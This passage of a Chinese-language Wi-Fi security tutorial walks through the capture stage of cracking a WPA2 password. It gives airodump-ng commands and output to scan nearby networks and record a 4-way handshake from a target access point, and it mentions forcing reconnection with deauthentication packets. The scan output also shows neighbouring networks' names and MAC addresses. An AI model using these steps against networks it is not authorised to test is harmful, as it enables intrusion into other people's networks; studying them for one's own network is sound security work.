 ```bash
airodump-ng mon0
```

你应该可以看到类似于下面的输出。

```
CH 13 ][ Elapsed: 52 s ][ 2017-07-23 15:49

 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 14:91:82:F7:52:EB  -66      205       26    0   1  54e  OPN              belkin.2e8.guests
 14:91:82:F7:52:E8  -64      212       56    0   1  54e  WPA2 CCMP   PSK  belkin.2e8
 14:22:DB:1A:DB:64  -81       44        7    0   1  54   WPA2 CCMP        <length:  0>
 14:22:DB:1A:DB:66  -83       48        0    0   1  54e. WPA2 CCMP   PSK  steveserro
 9C:5C:8E:C9:AB:C0  -81       19        0    0   3  54e  WPA2 CCMP   PSK  hackme
 00:23:69:AD:AF:94  -82      350        4    0   1  54e  WPA2 CCMP   PSK  Kaitlin's Awesome
 06:26:BB:75:ED:69  -84      232        0    0   1  54e. WPA2 CCMP   PSK  HH2
 78:71:9C:99:67:D0  -82      339        0    0   1  54e. WPA2 CCMP   PSK  ARRIS-67D2
 9C:34:26:9F:2E:E8  -85       40        0    0   1  54e. WPA2 CCMP   PSK  Comcast_2EEA-EXT
 BC:EE:7B:8F:48:28  -85      119       10    0   1  54e  WPA2 CCMP   PSK  root
 EC:1A:59:36:AD:CA  -86      210       28    0   1  54e  WPA2 CCMP   PSK  belkin.dca
```

出于这个演示的目的，我们将会破解我自己的网络，"hackme"。记住利用 `airodump-ng` 展示的 BSSID， MAC 地址以及信道（`CH`）号，在下一个步骤中我们将会需要它们。

### 捕获 4-way Handshake

WPA/WPA2 使用 [4-way Handshake](https://security.stackexchange.com/questions/17767/four-way-handshake-in-wpa-personal-wpa-psk) 来认证设备连接网络。你不需要明白这些的含意，但是你必须抓取 handshake 才能破解网络密码。这些握手发生在设备连接网络的时候，比如，当你的邻居工作回家的时候。我们通过之前命令发现的信道以及 bssid 值来使用 `airmon-ng` 来监视目标网络。

```bash
# 将 -c 以及 --bssid 值替换为你的目标网络值
# -w 用来指定我们保存捕获到数据包的文件夹
airodump-ng -c 3 --bssid 9C:5C:8E:C9:AB:C0 -w . mon0
```

```
 CH  6 ][ Elapsed: 1 min ][ 2017-07-23 16:09 ]

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 9C:5C:8E:C9:AB:C0  -47   0      140        0    0   6  54e  WPA2 CCMP   PSK  ASUS
```

现在让我们等一会儿... 当我们捕捉到一个握手时，你应该能够马上在屏幕的右上角看到类似于`[ WPA handshake: bc:d3:c9:ef:d2:67`的一些东西。

如果你不想等，也不反感进行一次主动攻击，你可以强制设备连接到目标网络来重新连接，并且在目标网络中发送恶意 deauthentication 数据包。通常这样就可以抓到 4-way handshake 了。参考下面的 [deauth 攻击章节](#deauth-attack) 来获取关于此的信息。

一旦你捕获了一个握手，按下 `ctrl-c` 来终止 `airodump-ng`。这是在你指定的 `airodump-ng` 输出目录下，应该看到一个用来保存捕获信息的`.cap`文件（比如叫做`-01.cap`）。我们将会使用这个捕获文件来破解网络密码。个人喜欢将这个文件重命名为当前正在尝试破解的网络名称：

```bash
mv ./-01.cap hackme.cap
```
